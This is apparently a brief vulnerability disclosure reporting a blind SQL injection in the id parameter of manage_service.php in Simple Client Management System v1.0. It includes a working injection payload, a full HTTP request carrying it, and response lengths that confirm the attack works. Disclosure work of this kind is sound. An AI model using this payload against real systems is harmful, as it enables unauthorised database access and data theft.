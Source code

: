 # Simple-Client-Management-System v1.0 by oretnom23 has SQL injection

**Author：** k0xx

vendors: https://www.sourcecodester.com/php/15027/simple-client-management-system-php-source-code.html

Vulnerability File: /cms/admin/maintenance/manage_service.php?id=

Vulnerability location: /cms/admin/maintenance/manage_service.php?id=,id

[+] Payload: /cms/admin/maintenance/manage_service.php?id=1%27%20and%20length(database())%20=6%20--+  // Leak place ---> id

Current database name: cms_db,length is 6

```sql
GET /cms/admin/maintenance/manage_service.php?id=1%27%20and%20length(database())%20=6%20--+ HTTP/1.1
Host: 192.168.1.19
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
Cookie: PHPSESSID=3m0l1n81dvmlo0a3h9oo72q1gp
Connection: close
// Leak place ---> id
```


When length (database ()) = 6, Content-Length: 2397


When length (database ()) = 7, Content-Length: 168
